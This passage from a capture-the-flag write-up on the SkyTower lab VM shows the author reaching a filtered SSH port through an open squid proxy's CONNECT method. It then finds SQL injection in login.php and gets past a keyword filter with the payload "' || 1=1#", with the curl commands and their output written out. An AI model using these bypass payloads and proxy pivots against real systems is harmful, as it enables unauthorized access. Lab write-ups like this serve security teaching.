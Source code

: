 ## learn all you can
With the information gathered so far, I realized that the SSH (tcp/22) was explicitly filtered, however the squid proxy was open. I tried to telnet and use the CONNECT method to see if I was able to access the SSH service:

```bash SSH Access via open proxy
$ telnet 192.168.137.242 3128
Trying 192.168.137.242...
Connected to 192.168.137.242.
Escape character is '^]'.
CONNECT 127.0.0.1:22
HTTP/1.0 200 Connection established

SSH-2.0-OpenSSH_6.0p1 Debian-4+deb7u1
^]
telnet> quit
Connection closed.
```

Great, soooo I can get access to the SSH service of needed. The dirbuster results showed nothing of particular interest, but it was worth a shot anyways. An important thing to note here is that I suspect I maxed out the disk space in the VM due to the access_log growing too big from the dirbust. This caused me numerous headaches and frustrated me quite a bit when I was testing. Anyways...

The next step was to poke around the web application. I personally really enjoy web hacking so this was probably the most fun of the whole CTF. The web page presented you with a simple form that would POST to `login.php`. 2 fields were posted: `email` & `password`

A natural reaction is to try and use a single quote in form fields as a quick and nasty check for potential SQL injection. A login attempt with a username of test and password `'` resulted in:

```bash SQLi Reveal
There was an error running the query [You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''''' at line 1]
```

Classic SQLi! Surprised I continued with simple login bypasses. None that I could think of out of my head appeared to work. Eventually I started to notice that some of the keywords that I was using were not appearing in the error messages. This hinted heavily towards the fact that there may be some form of filtering in place. Eventually, I put the request down in a curl command so that I can work with this slightly easier. To sample the keywords being removed:

```bash SkyTower keyword removal
$ curl --data "email=foo@bar&password=' OR 1=1#" http://192.168.137.242/login.php
There was an error running the query [You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '11#'' at line 1]%

$ curl --data "email=foo@bar&password='1 OR 1=1#" http://192.168.137.242/login.php
There was an error running the query [You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '1  11#'' at line 1]%
```

Ok, so no `OR`. Thats ok, we can substitute this easily with `||`.

```html SkyTower Auth Bypass
$ curl --data "email=foo@bar&password=' || 1=1#" http://192.168.137.242/login.php
<HTML>
      <div style="height:100%; width:100%;background-image:url('background.jpg');
                                background-size:100%;
                                background-position:50% 50%;
                                background-repeat:no-repeat;">
      <div style="
        padding-right:8px;
              padding-left:10px;
        padding-top: 10px;
              padding-bottom: 10px;
                  background-color:white;
                  border-color: #000000;
```